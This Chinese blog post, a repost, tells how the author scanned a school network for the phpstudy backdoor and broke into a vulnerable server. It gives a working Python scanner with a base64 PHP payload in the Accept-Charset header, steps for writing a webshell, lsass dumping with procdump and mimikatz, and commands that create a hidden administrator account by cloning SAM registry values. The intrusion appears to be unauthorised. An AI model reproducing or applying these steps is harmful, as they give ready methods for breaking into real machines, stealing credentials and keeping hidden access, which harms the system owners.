# phpstudy存在后门

[2020-04-19]()

## [](#前言 "前言")前言

前段时间 phpstudy 被爆出存在后门，想到学校里的许多站都是用 phpstudy 做的环境，于是写了个脚本扫描了下，发现真的有中招的。  

### [](#phpstudy后门扫描 "phpstudy后门扫描")phpstudy后门扫描

写了个简单的脚本

```
import requests
import threading

# f = open("ip.txt",'w')
def test(ip):
    url = "http://{}:80/index.php".format(ip)
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3", "Accept-Language": "zh,zh-TW;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6", "Accept-Charset": "ZWNobyAiZGFvbGd0cyI7", "Accept-Encoding": "gzip,deflate", "Connection": "close"}
    try:
        r = requests.get(url, headers=headers)
        if "daolgts" in r.content:
            # f.write(ip+"\n")
            print "[+] found\t"+ip
        # else:
            # print "[-] nope\t"+ip
    except:
        pass
        # print "[-] nope\t"+ip

thread=[]
for _ in range(1,256):
    print "[-] ip :"+_+"next..."
    for i in range(1,256):
        ip = "192.168."+str(_)+"."+str(i)
        t=threading.Thread(target=test,args=(ip,))
        thread.append(t)
        t.start()

for x in thread:
    t.join()
```

最后只有一个 ip 能够利用

### [](#getshell "getshell")getshell

根据 payload 可以执行任意的 php 代码

先 getcwd\(\) 看下位置  


```
var_dump(getcwd());
dmFyX2R1bXAoZ2V0Y3dkKCkpOw==
string(12) "C:\phpStudy2"
```

  
  
var\_dump\(scandir\(“C:\\phpStudy2”\)\);  
var\_dump\(scandir\(“C:\\phpStudy2\\PHPTutorial”\)\);  
var\_dump\(scandir\(“C:\\phpStudy2\\PHPTutorial\\WWW”\)\);

找到网站目录 C:\\phpStudy2\\PHPTutorial\\WWW

然后利用 file\_put\_contents 写个马  

找到网站目录 `C:\phpStudy2\PHPTutorial\WWW`

然后 `file_put_contents` 写个马

这里使用了蚁剑的插件生成shell，配合蚁剑连接使用  
  


成功连接  
  
emmm，直接就是 administrator 了，也没有内网环境，后来发现是一台虚拟机，枯燥。。

看下端口  


发现开启了 3306 和 9833，3306 是 mysql ，这个 9833 应该就是修改了的 3389 的端口mysql 的密码在 config.php 中能找到，而且是 root 用户

使用蚁剑连接，在数据库中发现网站后台的管理员密码  


然后目标转向 9983  
kali 下使用 rdesktop 有问题  
  
windows 里 mstsc.exe 可以正常连接

然后抓下密码，先传个 procdump64.exe，执行

```
procdump64.exe -accepteula -ma lsass.exe 1.dmp
```

得到 1.dmp ，使用 mimikatz.exe 读

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```



emmm，不知道为什么抓不到密码，也尝试了传 mimikatz.exe 直接读，同样失败

1.  既然已经拿到了 administrator 权限，直接添加一个后门用户吧

    net user defaultuser0\$ somepasswordhere /add /y  
    net localgroup administrators defaultuser0\$ /add  
    net localgroup “remote desktop users” defaultuser0\$ /add

使用该账号密码，成功登录

用户名后添加 \$ 在 cmd 里使用 net user 查看时是可以隐藏的，但在图形界面下还是会显示

2.  接下来操作注册表，使这个账户在图形界面中也不显示

* 输入 regedit 打开注册表编辑器，找到 HKEY\_LOCAL\_MACHINE\\SAM\\SAM,右键点击权限，将读写权限赋予 administrator



* 找到后门用户和 administrator 用户对应的目录



* 将 administrator 对应目录中的F值复制到后门用户对应目录中的F值  
  
* 复制完成后，把 defaultuser0\$ 和其对应的 0000003EA 目录导出并保存，然后删除刚才的后门用户

  net user defaultuser0\$ /del

然后重新导入注册表，这样就添加了一个隐藏的用户，使用 defaultuser0\$ 和密码就能登陆为 administrator  
  
事后，发现登着 tim 呢，找到 qq 号，进行亲切友好的交谈  
  


## [](#写在最后 "写在最后")写在最后

本文转自合天智汇，如有侵权请联系作者，立即删除。  
原文链接：<https://mp.weixin.qq.com/s/97I6jIvKzjHxmTboSyd86A>

**声明：作者初衷用于分享与普及网络知识，若读者因此作出任何危害网络安全行为后果自负，与合天智汇及原作者无关。**